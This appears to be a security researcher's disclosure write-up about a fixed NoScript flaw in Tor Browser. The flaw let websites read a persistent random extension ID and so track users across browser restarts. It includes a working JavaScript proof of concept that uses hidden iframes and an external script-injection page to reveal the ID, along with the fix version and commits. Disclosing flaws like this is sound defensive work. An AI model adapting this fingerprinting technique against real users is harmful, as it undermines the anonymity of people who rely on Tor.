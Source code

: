 ```yaml
---
title: Identify Tor user across browser restarts (Fixed)
---
```


"Tor Browser aims to make all users look the same, making it difficult for you to be fingerprinted based on your browser and device information."

NoScript is installed by default and cant be removed.
Other browser extensions are discouraged since there normally fingerprintable <https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/41581#note_2949932>

On the first install of the Tor browser, NoScript gets assigned a random extension ID that never changes. Because of this Firefox bug: <https://bugzilla.mozilla.org/show_bug.cgi?id=1372288>

This is different to the chromium way of using a universal extension ID for manifest v2 which while did allow detecting if an extension was installed there was no random extension/user ID generated.
Manifest v3 does have a `use_dynamic_url` feature that claims to be "per session and regenerated on browser restart or extension reload"

If the user increases there browser security level to "Safer" or in the NoScript settings page disables the media toggle this ID would be shared to an attacker controlled website using the following PoC:

```js
// Just a blank video
f = document.createElement('iframe')
f.hidden = true;
f.src = 'https://terjanq.me/xss.php?ct=video/mp4';
document.body.appendChild(f);

payload = `
let x = setInterval(() => {
 try {
  parent[0].document.links[0].style.opacity = 1;
  let link = parent[0].document.head.getElementsByTagName('link')[0];
  if (link && link.href) {
   let origin = new URL(link.href).hostname;
   alert('User ID: ' + origin);
   clearInterval(x);
  }
 } catch {}
}, 10);
`

setTimeout(() => {
    f2 = document.createElement('iframe');
    f2.hidden = true;
    // runs code same-origin as video
    f2.src = 'https://terjanq.me/xss.php?js=' + encodeURIComponent(payload);
    document.body.appendChild(f2);
}, 100);
```

This leak can be found at: <https://github.com/hackademix/nscl/blob/ef1ecbea27e39e255d988a8fb0233ab53c46e57c/content/PlaceHolder.js#L34>

It was fixed in version 11.4.28 by calling `tabs.insertCSS` instead of referencing the css file with `runtime.getURL`

NoScript: <https://github.com/hackademix/noscript/commit/1754429ea1bc458f802c4e4f49f8e8e4ab15f403>  
NSCL: <https://github.com/hackademix/nscl/commit/4c94bf24f117277f5c00878005d91d0d7aaa18e4>
![Tor](https://ndevtk.github.io/writeups/tor.png)

# Was it awarded?
No because it was reported directly but may have been under "Low ($100 - $1000)"
<https://hackerone.com/torproject?type=team>
